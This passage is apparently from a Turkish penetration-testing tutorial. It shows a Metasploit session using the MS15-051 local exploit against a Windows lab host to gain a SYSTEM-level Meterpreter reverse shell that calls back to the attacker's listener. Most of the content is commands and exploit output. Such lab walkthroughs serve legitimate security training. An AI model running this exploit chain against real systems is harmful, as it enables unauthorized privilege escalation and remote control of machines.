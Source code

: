 Recon modülünü çalıştırmak bize çok sayıda seçenek sunar. Her birini tek tek incelediğimizde, başarılı olduğunu kanıtlayan `ms15_051_client_copy_image` girişine ulaşıyoruz. Bu istismar bizi doğrudan bir root shell'ine götürerek hedef sistem üzerinde tam kontrol sahibi olmamızı sağlıyor.


#### MSF - Privilege Escalation
```shell-session
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1

session => 1


msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000


meterpreter > getuid
```